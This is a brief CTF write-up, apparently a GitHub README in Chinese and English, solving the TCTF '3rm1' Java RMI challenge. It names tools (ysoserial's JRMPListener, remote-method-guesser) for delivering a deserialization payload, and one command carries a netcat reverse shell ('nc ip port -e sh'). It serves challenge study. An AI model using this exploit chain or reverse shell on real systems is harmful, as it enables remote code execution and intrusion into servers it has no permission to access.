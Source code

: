 # TCTF_3rm1_solution
tctf 3rm1 solution

使用ysoserial编写exp打包，使用JRMPListener将序列化payload传过去.
java -cp  ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 4444 TCTF3rmiExp 'nc ip port -e sh'

使用 https://github.com/qtc-de/remote-method-guesser 绑定恶意对象.
访问恶意对象即可触发反序列化.
